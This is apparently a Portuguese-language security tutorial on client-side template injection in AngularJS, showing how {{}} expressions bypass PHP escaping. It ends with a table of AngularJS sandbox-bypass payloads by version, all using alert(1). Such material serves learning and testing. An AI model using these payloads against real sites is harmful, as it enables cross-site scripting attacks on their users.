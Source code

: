 O template engine mais comum no client-side é o framework angularjS ele é usado para a criação e execução de aplicações single-page.


Este framework renderiza os modelos em tela e caso uma injeção, contendo conteúdo malicioso, for incorporada à página pode-se gerar, por exemplo, um XSS.

```html
<html>
	<body>
		<p>
			<?php
				$q = $_GET['q'];
				echo htmlspecialchars($q,ENT_QUOTES);
			?>
		</p>
	</body>
</html>
```

O exemplo acima é um código básico em php, ele não é vulnerável a xss
```html
<html ng-app>
	<head>
		<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.4.7/angular.js"></script>
	</head>
	<body>
		<p>
			<?php
				$q = $_GET['q'];
				echo htmlspecialchars($q,ENT_QUOTES);?>
		</p>  
	</body>
</html>
```

O código acima é um exemplo da implementação do angularJs, isto pode ser visto pela request do script e pelo ng-app na tag html.

O interessante é que ao renderizar conteúdo, podemos injetar código js, como no python, dentro de chaves duplas ```{{}}```.

Também deve-se freezar que o próprio angular não permite que o usuário faça este tipo de injeção mas a cada nova atualização pesquisadores descobrem novos payloads que podem "bypassar" essa permissão da linguagem.

Esta é uma tabela contendo todos os bypass das versões do angular.

| Versão | Bypass |
| ----			  			 | ----- |
| 1.0.1 - 1.1.5   			 | constructor.constructor('alert(1)')() |
| 1.2.0 - 1.2.18 			 | ```a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()``` 						 |
| 1.2.19 - 1.2.23 			 | ```toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);```    |
| 1.2.24-1.2.26   			 |  ```{}[['__proto__']]['x']=constructor.getOwnPropertyDescriptor;g={}[['__proto__']]['x'];{}[['__proto__']]['y']=g(''.sub[['__proto__']],'constructor');{}[['__proto__']]['z']=constructor.defineProperty;d={}[['__proto__']]['z'];d(''.sub[['__proto__']],'constructor',{value:false});{}[['__proto__']]['y'].value('alert(1)')()```|
| 1.2.27-1.2.29/1.3.0-1.3.20 | ```{}.")));alert(1)//";``` |
| 1.4.0-1.4.5 				 | ```o={};l=o[['__lookupGetter__']];(l=l)('event')().target.defaultView.location='javascript:alert(1)';``` |
| 1.4.5-1.5.8 				 | ```o={};l=o[['__lookupGetter__']];(l=l)('event')().target.defaultView.location='javascript:alert(1)';``` |
| >=1.6.0      				 | ```constructor.constructor('alert(1)')()``` |
